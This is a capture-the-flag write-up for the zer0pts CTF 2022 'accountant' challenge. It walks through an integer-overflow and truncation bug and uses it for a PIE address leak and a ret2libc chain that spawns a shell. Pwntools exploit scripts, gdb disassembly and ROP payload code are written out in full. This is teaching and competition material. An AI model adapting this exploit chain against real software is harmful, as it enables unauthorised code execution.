# zer0pts CTF 2022 - accountant

### Reference source

https://kileak.github.io/ctf/2022/zer0pts-accountant/

---

Original challenge link: https://2022.ctf.zer0pts.com/tasks/10634237

You can also download challenge file in my repo: [accountant.zip](accountant.zip)

There will be 3 files in zip:
- chall
- libc-2.31.so
- main.c

Download the zip, then extract and use `pwninit` to patch file. When everything's ready, let's start!

# 1. Find bug

First, we use `file` and `checksec` to check for basic information and all the security of binary:

```bash
$ file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0159c44228df62cd4ad024fe34b5be92d6f6d7dd, not stripped

$ checksec chall
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

This is a 64-bit file without being stripped but with all the defences on. Next, we are provided the source code so let's examine it to get the flow.

The program first takes the number of items, store it to `n`, a **64 bit** variable, and then check if `n` is lower or equal to 0 to exit, **but** will not check if it's too large or not. 

Next, it will allocate space on stack if `n * sizeof(Item)` is lower than 4032 and will call calloc() if it's larger. And `Item` is a struct which has size of 8 because of the size of variables in it:

```c
typedef struct {
  int32_t price;
  int32_t quantity;
} Item;
```

`int32_t` which means 4 bytes. So 2 times 4 will be 8 bytes for the size of Item.

Wait, can you notice that? As we said that it didn't check `n` if it's large or super large, and then it is multiplied by 8, which will be a super super large number. Hence, it will overflow the number --> **Integer Overflow**

To be clear, let's get this example. If you have full 8 bytes of `0xff` and you add 1, it will become `0x10000000000000000`, 8 byte of `0x00` and 1 byte of `0x1` for the most significant byte. And that most significant byte which will be removed for a 64 bit register, which means the register containing `0xffffffffffffffff` after adding 1 will contain `0x0000000000000000`.

The next thing we need to know is about data types of `int` and `long int` in case you've forgot or misunderstood or read some wrong article: 

```
int            (4 bytes): -2147483648 --> 2147483647
long int       (8 bytes): -9223372036854775808 --> 9223372036854775807
long long int  (8 bytes): -9223372036854775808 --> 9223372036854775807
```

And the last thing we need to focus is the function input_all_data() and calc_total():

```c
void input_all_data(Item *items, int n)
{
	...
}
int64_t calc_total(Item *items, int n)
{
	...
}
```

Do you remember that `n` in main is defined as a 64-bit variable? But when it pass to these 2 functions, which take `n` as 32 bit. So if we input `n` in main as `0x100000000`, 4 null bytes and 1 most significant byte `0x1`, it will take just 4 null bytes and pass as argument to functions.

That's all thing we need to know. Let's brainstorm for the plan to exploit this challenge.

# 2. Brainstorming

With the **Integer Overflow**, we will input with a large `n` to make `n * sizeof(Item)` become 0 (because we cannot input `n` with 0 so we use this trick). And with `n * sizeof(Item)` equal to 0, the allocation space will be on stack without changing stack address.

Then, with the reduction from size of `n` in input_all_data(), which means it passes 0 for `n`, we don't need to input anything. And with the reduction from size of `n` in calc_total(), it still pass 0 for `n`. Therefore, it print out the multiplication of `items[-1].price` and `items[-1].quantity`, which is the multiplication of address of the next instrucition in main().

With that leak address, we can calculate the base address of main. And with a large `n`, we can easily change the saved rip and input our payload to get shell.

Summary:

1. Get exe address
2. Conduct ret2libc

# 3. Exploit

### Stage 1: Get exe address

First, we want `n * sizeof(Item)` to be zero so that we can allocate chunk on stack. Disassemble with gdb-gef about this check, we can see that:

```bash
gef➤  disas main
   ...
   0x0000555555400b22 <+117>: mov    rbx,rax
   0x0000555555400b25 <+120>: lea    rax,[rax*8+0x0]
   0x0000555555400b2d <+128>: cmp    rax,0xfbf
   0x0000555555400b33 <+134>: ja     0x555555400bc6 <main+281>
   ...
End of assembler dump.
```

With rax is the value of `n`, which is saved to rbx as a backup. Next, `n` will be multiplied by 8 so if we can make rax multiply and result to `0x10000000000000000` (9 bytes in total), rax will be converted to 0 and of course lower than 0xfbf.

So our aim is to make `n * sizeof(Item)` to `0x10000000000000000`, hence, `n` will be:

```python
>>> int(0x10000000000000000 / 8)
2305843009213693952
>>> hex(2305843009213693952)
'0x2000000000000000'    # 8 bytes in total
```

With `sizeof(Item)` is 8 as I explained above. After we input `0x2000000000000000`, we now can control the stack because the allocated chunk is on the stack, not in heap and with a large n, we can change stack at anywhere we want (but can only change the higher stack, not lower one).

And before we jump to function input_all_data(), the function just take 4 least significant bytes of `n` and pass to it:

```bash
gef➤  disas main
   ...
   0x0000555555400b58 <+171>: mov    esi,ebx
   0x0000555555400b5a <+173>: mov    rdi,r13
   0x0000555555400b5d <+176>: call   0x555555400a5b <input_all_data>
   ...
End of assembler dump.
```

With rbx is the value of `n`. But because we input `0x2000000000000000` so rbx contains `0x2000000000000000`, but ebx is just `0x00000000`. So we pass the function input_all_data() and don't need to input anything

Next, the program will do the same thing before it jump to calc_total():

```bash
gef➤  disas main
   ...
   0x0000555555400b62 <+181>: mov    esi,ebx
   0x0000555555400b64 <+183>: mov    rdi,r13
   0x0000555555400b67 <+186>: call   0x555555400a85 <calc_total>
   0x0000555555400b6c <+191>:  mov    rdx,rax
   ...
End of assembler dump.
```

And again, it pass 0 for `n` to calc_total(). Remember that when a program execute `call`, it will place the next instruction to the stack first, then jump to that function. In this case, before it jump to calc_total(), it will put the address `0x0000555555400b6c` to the stack and jump to it.

And in calc_total(), it will take `i = n-1` so with `n` is 0, `i` will be `-1` and `items[-1]` will point to that return address `0x0000555555400b6c`. So the total will be the multiplication of 4 lower bytes with 4 higher bytes of `0x0000555555400b6c`:

```python
total = 0x00005555 * 0x55400b6c = 0x1c6a920ea6dc
```

**BUT**, there is a bug here. We know that `Item.price` and `Item.quantity` is defined as `int32_t` so this code will make the calculation go wrong:

```c
total += items[i].price * items[i].quantity;
```

It actually multiplies two 32-bit variable and lead to a 32-bit result first, then assign it to a 64-bit variable. So if we have the address as above `0x0000555555400b6c`, after the multiplication, we can get `0x1c6a920ea6dc` theorily. But the actual value we can get is just 4 lower bytes of that result, which is `0x920ea6dc` and we lost 2 higher bytes.

Things get harder here, so first, let's write python script and make it go from the begining to here:

```python
#!/usr/bin/env python3

import subprocess
from pwn import *
import struct

exe = ELF("./chall_patched", checksec=False)
libc = ELF("./libc-2.31.so", checksec=False)
ld = ELF("./ld-2.31.so", checksec=False)

context.binary = exe
context.log_level = 'debug'

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("addr", 1337)

    return r

def input_data(price, quantity):
    p.sendlineafter(b'Price: $', f'{price}'.encode())
    p.sendlineafter(b'Quantity: ', f'{quantity}'.encode())

p = conn()

p.sendlineafter(b'Number of items: ', b'0x2000000000000000')
print(p.recvline())

p.interactive()
```

And we can get the result:



You can see that number can be positive or negative. Let's get that number and convert it to 64-bit hex number so that we can get the correct multiplication result by using struct package:

```python
import struct
result = int(p.recvline()[:-1].split(b': $')[1])
result = u32(struct.pack('<i', result))
print("[+] Result: " + hex(result))
```

Execute script and we get the result number (remember to attach gdb first):



And we check in gdb at the `__printf_chk` when it was going to print:



And we know it's correct. Now, it's time to bruteforce. We can see that the next address after calc_total() always has the same 5 last number:







So it's always the same with `00b6c`. We can also see that the first 2 bytes of the next address after calc_total() is in range `0x5555` to `0x56ff`.

The idea for bruteforcing is:

1. Bruteforce 2 first bytes of the result which is lost when converted from 64-bit to 32-bit --> new_result
2. Take new_result divide with x which run from `0x5555` to `0x56ff`. After the division:
    - If it returns an integer number, compare that number with 5 last number with `00b6c`, if equal --> maybe the correct address
    - If not an integer number, skip that num

The idea can be transfer to python script as following:

```python
def BruteforceAddr(result):
    # Bruteforce 2 first bytes of result
    for twobytes in range(0x1111, 0xffff):
        # Bruteforce the division
        for divisor in range(0x5555, 0x56ff):
            # We want to conserve the number
            tmp = result | (twobytes << 32)

            # Take the integer and the mod (Ex: 1234.3)
            division = str(tmp / divisor).split('.')

            # Compare if the mod is null --> integer number
            if division[1] == '0':
                # Compare last 5 number
                if hex(int(division[0]))[-5:] == '00b6c':
                    # If correct, just get it
                    return (divisor << 32) | int(division[0])
```

And we can get the leak address: 



Check with the current address:



And we know it's correct. But the leak address is got by luck, it might sometimes be wrong (I realize if the result is negative, the leak address after bruteforce is almost correct).

With the leak address, we can calculate the exe base address. Let's get the offset between the leak address and the base. First, we run command `vmmap` or `info proc map` to get the exe base address:


And we get the offset by subtract the leak address with the exe base address:



So offset is 0xb6c. Let's move on!

### Stage 2: Conduct ret2libc

Now, we will find at which index will be saved rip by trying different index with this code:

```python
for index, c in enumerate(b'ABCDEFGHIJKLMN'):
    print(index, chr(c))
    p.sendlineafter(b'(-1 to quit):', f'{index}'.encode())
    p.sendlineafter(b'Price: $', f'{c}'.encode())
    p.sendlineafter(b'Quantity: ', f'{c}'.encode())
```



And `L` is at offset 11:



Let's conduct the ret2libc (remember price is the 4 lower bytes and quantity is 4 higher bytes):

```python
pop_rdi = 0x0000000000000d53
payload = p64(exe.address + pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
for i in range(int(len(payload) / 8)):
    modify(i+11, payload[i*8:i*8+8])
```

And the function modify is:

```python
def modify(index, value):
    p.sendlineafter(b'Index to modify (-1 to quit): ', f'{index}'.encode())
    price = u64(value) & 0xffffffff
    quantity = u64(value) >> 32
    input_data(price, quantity)
```

Execute script and we usually get the begining of main:



Nice! Let's get that address and use the same offset, also the same trick as above to get shell:

```python
p.sendlineafter(b'Number of items: ', b'0x2000000000000000')
p.sendlineafter(b'[1=Yes]', b'1')
pop_rsi_r15 = 0x0000000000000d51
payload = flat(
    exe.address + pop_rdi,
    next(libc.search(b'/bin/sh')),
    exe.address + pop_rsi_r15,
    0,
    0,
    libc.sym['system'])
for i in range(int(len(payload) / 8)):
    modify(i+11, payload[i*8:i*8+8])
p.sendlineafter(b'Index to modify (-1 to quit): ', b'-1')
```

Execute script and we get shell (in case address leak is correct):

Full code: [solve.py](solve.py)

# 4. Get flag

Because I made this writeup after the time and the server closed so I cannot get the real flag, but I will try to run it on local machine:


